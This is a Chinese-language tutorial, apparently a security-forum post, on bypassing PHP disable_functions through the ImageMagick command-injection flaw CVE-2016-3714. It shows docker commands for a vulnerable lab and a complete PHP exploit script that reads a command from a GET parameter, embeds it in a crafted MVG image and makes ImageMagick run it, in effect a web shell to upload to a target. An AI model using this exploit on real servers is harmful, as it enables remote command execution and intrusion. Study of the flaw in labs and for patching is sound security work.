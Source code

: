 ### 原理简述

imagemagick是一个用于处理图片的程序，它可以读取、转换、写入多种格式的图片。图片切割、颜色替换、各种效果的应用，图片的旋转、组合，文本，直线，多边形，椭圆，曲线，附加到图片伸展旋转。

利用ImageMagick绕过disable\_functions的方法利用的是ImageMagick的一个漏洞（CVE-2016-3714）。漏洞的利用过程非常简单，只要将精心构造的图片上传至使用漏洞版本的ImageMagick，ImageMagick会自动对其格式进行转换，转换过程中就会执行攻击者插入在图片中的命令。因此很多具有头像上传、图片转换、图片编辑等具备图片上传功能的网站都可能会中招。所以如果在phpinfo中看到有这个ImageMagick，可以尝试一下。

### 利用方法

我们使用网上已有的docker镜像来搭建环境：

```bash
docker pull medicean/vulapps:i_imagemagick_1
docker run -d -p 8000:80 --name=i_imagemagick_1 medicean/vulapps:i_imagemagick_1
```

启动环境后，访问 <http://your-ip:8000> 端口：

![image-20210210212034085](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f8585244b10d2486e4bb4024fda3683fe235d561.png)

假设此时目标主机仍然设置了disable\_functions只是我们无法执行命令，并且查看phpinfo发现其安装并开启了ImageMagick拓展：

![image-20210210212323792](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4cd8c126c8e8e6542765627909b727b009e070fb.png)

此时我们便可以通过攻击ImageMagick绕过disable\_functions来执行命令。

将一下利用脚本上传到目标主机上有权限的目录（/var/tmp/exploit.php）：

```php
<?php
echo "Disable Functions: " . ini_get('disable_functions') . "\n";

$command = PHP_SAPI == 'cli' ? $argv[1] : $_GET['cmd'];
if ($command == '') {
   $command = 'id';
}

$exploit = <<<EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|$command")'
pop graphic-context
EOF;

file_put_contents("KKKK.mvg", $exploit);
$thumb = new Imagick();
$thumb->readImage('KKKK.mvg');
$thumb->writeImage('KKKK.png');
$thumb->clear();
$thumb->destroy();
unlink("KKKK.mvg");
unlink("KKKK.png");
?>
```
